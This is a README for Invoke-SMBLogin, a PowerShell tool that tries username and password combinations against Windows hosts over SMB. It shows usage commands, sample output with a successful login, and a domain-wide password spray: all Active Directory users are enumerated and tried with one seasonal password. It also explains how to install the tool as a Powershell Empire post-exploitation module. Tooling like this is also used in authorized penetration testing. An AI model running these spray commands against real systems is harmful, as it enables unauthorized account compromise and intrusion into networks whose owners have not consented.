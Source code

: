 # Invoke-SMBLogin #
Validates username &amp; password combination(s) across a host or group of hosts using the SMB protocol.

## Examples ##

Depending on the type of parameter ( a single item, comma separated items or a text file ) the script will run through all the iterations.
	
```
PS C:\> Invoke-SMBLogin -ComputerName host01 -UserName bsimpson -Password Passw0rd1
PS C:\> Invoke-SMBLogin -ComputerName host01 -UserName bsimpson -Password "Passw0rd1,Passw0rd2,Passw0rd3"
PS C:\> Invoke-SMBLogin -ComputerName "host01,host02,host03" -UserName bsimpson -Password "Passw0rd1,Passw0rd2,Passw0rd3"
```

```  
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName hosts.txt -UserName Administrator -Password Passw0rd1
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName host01 -UserName users.txt -Password Passw0rd1
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName host01 -UserName users.txt -Password passwords.txt
```
```
PS C:\> Invoke-SMBLogin -ComputerName hosts.txt -UserName Administrator -Password "Passw0rd1,Passw0rd2"

ComputerName Username              Password  Result
------------ --------              --------  ------
192.168.1.1  builtin\Administrator Passw0rd1 Failed
192.168.1.1  builtin\Administrator Passw0rd2 Failed
192.168.1.2  builtin\Administrator Passw0rd1 Failed
192.168.1.2  builtin\Administrator Passw0rd2 Success
```  
This will perform a password spray attack across all domain users using Winter2019 against a host in the domain. It could be a DC or any other member server/workstation as long as it has SMB open.
```
PS C:\> Get-ADUser -Filter * | Select-Object SamAccountName > users.txt
PS C:\> Invoke-SMBLogin -Domain lab.org -ComputerName AnyDomainHost -UserName users.txt -Password Winter2019
```  

## Using Invoke-SMBLogin with Powershell Empire ##

To use Invoke-SMBLogin from a Powershell Empire agent, you have to copy the Powershell script and the Empire module python script to the Empire folder:

- Invoke-SMBLogin.ps1 to **data/module_source/situational_awareness/network/**
- smblogin.py to **lib/modules/powershell/situational_awareness/network/**
